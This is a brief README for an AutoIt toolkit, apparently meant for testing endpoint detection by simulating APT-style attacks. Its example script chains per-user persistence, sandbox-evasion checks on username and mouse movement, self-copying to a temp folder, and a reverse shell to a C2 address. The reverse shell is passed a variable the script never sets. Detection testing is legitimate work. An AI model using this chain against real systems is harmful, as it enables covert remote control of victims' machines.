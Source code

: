 # EDR Tester

## Introduction

The EDR Tester is a collection of AutoIT libraries for APT attacks simulation.


## Example

* This is an example


**APT01**
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "test"
$c2server = "192.168.0.1"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($RemoteIp)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

